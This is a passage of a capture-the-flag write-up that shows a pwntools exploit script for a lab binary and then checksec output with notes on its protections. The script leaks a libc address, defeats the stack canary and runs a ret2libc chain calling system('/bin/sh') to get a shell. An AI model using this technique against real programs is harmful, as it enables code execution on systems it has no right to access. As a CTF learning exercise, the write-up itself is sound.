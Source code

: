 ```py
p.send(payload)

p.recvuntil(b"hours remaining\n")
p.send(b'A' * 25 )
p.recvuntil(b"\n")
output = p.recvuntil(b"Dawn")

p.recvuntil(b"hours remaining\n")
p.send(b'C' * 7 + b'D' * 8) # 
p.recvuntil(b"\n")
output = p.recvuntil(b"Dawn")
libc_return_addr = output[40:46].ljust(8, b'\x00')
libc_return_addr = u64(libc_return_addr) - 243



libc.address = libc_return_addr - libc.sym['__libc_start_main'] 
print(hex(libc.address))

payload2 = flat(
    b'B' * 24, # padding to get to canary
    p64(canary),
    b'C' * 8, # padding to get to return address
    p64(elf.address + 0x000000000000101a),
    p64(elf.address + 0x000000000001403),
    p64(next(libc.search(b'/bin/sh'))),
    p64(libc.sym['system'])

)
p.recvuntil(b"hours remaining\n")
p.send(payload2)


p.interactive()

```
Run the script above and you'll get a shell, cat flag.txt and you get the flag! 


## Observation 
```
┌──(kali㉿kali)-[~/Desktop/CTF/legend]
└─$ checksec program  
[*] '/home/kali/Desktop/CTF/legend/program'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
- `FULL RELRO`: libc function addresses are read-only and we cannot do GOT hijacking
- `Canary found`: There is a random value between buffer and `rbp` whcih terminate the rprogram if the value changes. Used to block buffer overflow attack 
- `NX enabled`: No shellcode injection, unlikely since the program has no sections htat are both writable and executable at the same time
- `PIE enabled`: Program addresses are randomized, specifically in `.text`, `.data` and `.bss` sections. We need to defeat `PIE` to be able to return to calculate 
### Source code 